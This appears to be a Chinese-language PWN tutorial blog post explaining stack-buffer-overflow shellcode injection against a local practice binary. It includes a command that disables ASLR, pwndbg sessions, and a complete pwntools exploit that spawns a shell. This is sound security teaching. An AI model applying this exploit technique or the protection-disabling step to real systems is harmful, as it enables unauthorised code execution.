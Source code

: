 ```yaml
---
title: shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。

{{</admonition>}}

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/nops/) 。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出
`ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切
的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/de-bruijn-sequences/) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 Exploit

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()` ，它使我们能够与 shell 通信。

```python
p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你遇到 `EOFError` ，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。

{{</admonition>}}

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 Exploit

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
